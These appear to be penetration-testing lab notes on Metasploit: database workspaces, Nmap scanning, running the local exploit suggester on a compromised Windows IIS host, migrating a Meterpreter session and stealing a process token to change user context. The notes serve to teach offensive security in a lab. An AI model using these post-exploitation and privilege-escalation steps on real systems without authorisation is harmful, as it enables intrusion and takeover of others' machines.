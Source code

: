 ## Databases
### MSF - Initiate a Database
```shell
sudo msfdb init
```
To see what else we can do with Workspaces, we can use the `workspace -h` command for the help menu related to Workspaces.
```shell
msf6 > workspace -h

Usage:
    workspace                  List workspaces
    workspace -v               List workspaces verbosely
    workspace [name]           Switch workspace
    workspace -a [name] ...    Add workspace(s)
    workspace -d [name] ...    Delete workspace(s)
    workspace -D               Delete all workspaces
    workspace -r     Rename workspace
    workspace -h               Show this help information
```
### Importing Scan Results from NMAP
```shell
msf6 > db_import Target.xml
```

#### MSF - Nmap
```shell
msf6 > db_nmap -sV -sS 10.10.10.8
```
#### MSF - DB Export
```shell
msf6 > db_export -h
```
## Local exploit suggester
```shell
meterpreter > bg

Background session 1? [y/N]  y


msf6 exploit(windows/iis/iis_webdav_upload_asp) > search local_exploit_suggester

Matching Modules
================

   #  Name                                      Disclosure Date  Rank    Check  Description
   -  ----                                      ---------------  ----    -----  -----------
   0  post/multi/recon/local_exploit_suggester                   normal  No     Multi Recon Local Exploit Suggester


msf6 exploit(windows/iis/iis_webdav_upload_asp) > use 0
msf6 post(multi/recon/local_exploit_suggester) > show options

Module options (post/multi/recon/local_exploit_suggester):

   Name             Current Setting  Required  Description
   ----             ---------------  --------  -----------
   SESSION                           yes       The session to run this module on
   SHOWDESCRIPTION  false            yes       Displays a detailed description for the available exploits


msf6 post(multi/recon/local_exploit_suggester) > set SESSION 1

SESSION => 1


msf6 post(multi/recon/local_exploit_suggester) > run

[*] 10.10.10.15 - Collecting local exploits for x86/windows...
[*] 10.10.10.15 - 34 exploit checks are being tried...
nil versions are discouraged and will be deprecated in Rubygems 4
[+] 10.10.10.15 - exploit/windows/local/ms10_015_kitrap0d: The service is running, but could not be validated.
[+] 10.10.10.15 - exploit/windows/local/ms14_058_track_popup_menu: The target appears to be vulnerable.
[+] 10.10.10.15 - exploit/windows/local/ms14_070_tcpip_ioctl: The target appears to be vulnerable.
[+] 10.10.10.15 - exploit/windows/local/ms15_051_client_copy_image: The target appears to be vulnerable.
[+] 10.10.10.15 - exploit/windows/local/ms16_016_webdav: The service is running, but could not be validated.
[+] 10.10.10.15 - exploit/windows/local/ppr_flatten_rec: The target appears to be vulnerable.
[*] Post module execution completed
msf6 post(multi/recon/local_exploit_suggester) > 
```
## Migrate meterpreter
### MSF - Meterpreter Migration
```shell
meterpreter > getuid

[-] 1055: Operation failed: Access is denied.


meterpreter > ps

Process List
============

 PID   PPID  Name               Arch  Session  User                          Path
 ---   ----  ----               ----  -------  ----                          ----
 0     0     [System Process]                                                
 4     0     System                                                          
 216   1080  cidaemon.exe                                                    
 272   4     smss.exe                                                        
 292   1080  cidaemon.exe                                                    
<...SNIP...>

 1712  396   alg.exe                                                         
 1836  592   wmiprvse.exe       x86   0        NT AUTHORITY\NETWORK SERVICE  C:\WINDOWS\system32\wbem\wmiprvse.exe
 1920  396   dllhost.exe                                                     
 2232  3552  svchost.exe        x86   0                                      C:\WINDOWS\Temp\rad9E519.tmp\svchost.exe
 2312  592   wmiprvse.exe                                                    
 3552  1460  w3wp.exe           x86   0        NT AUTHORITY\NETWORK SERVICE  c:\windows\system32\inetsrv\w3wp.exe
 3624  592   davcdata.exe       x86   0        NT AUTHORITY\NETWORK SERVICE  C:\WINDOWS\system32\inetsrv\davcdata.exe
 4076  1080  cidaemon.exe                                                    
```

To migrate the Meterpreter session to another process, you can use the following steps:

1. **Identify a Suitable Process:**
   - Look for a stable process that is less likely to be terminated. System processes or services are often good candidates.

2. **Migrate to the Process:**
   - Use the `migrate` command followed by the Process ID (PID) of the target process.
   ```shell
   meterpreter > migrate <PID>
   ```

3. **Verify Migration:**
   - After migration, you can verify the current user context with:
   ```shell
   meterpreter > getuid
   ```

4. **Steal a Token (Optional):**
   - If you need to escalate privileges, you might attempt to steal a token from a process running under a higher privilege:
   ```shell
   meterpreter > steal_token <PID>
   ```

5. **Verify the New User Context:**
   - Check the new user context after stealing a token:
   ```shell
   meterpreter > getuid
   ```

6. **Example of Token Stealing:**
   ```shell
   meterpreter > steal_token 1836

   Stolen token with username: NT AUTHORITY\NETWORK SERVICE

   meterpreter > getuid

   Server username: NT AUTHORITY\NETWORK SERVICE
   ```

By migrating to a stable process and potentially stealing a token, you can maintain persistence and possibly escalate privileges within the target system. Always ensure you have the necessary permissions to perform these actions legally and ethically.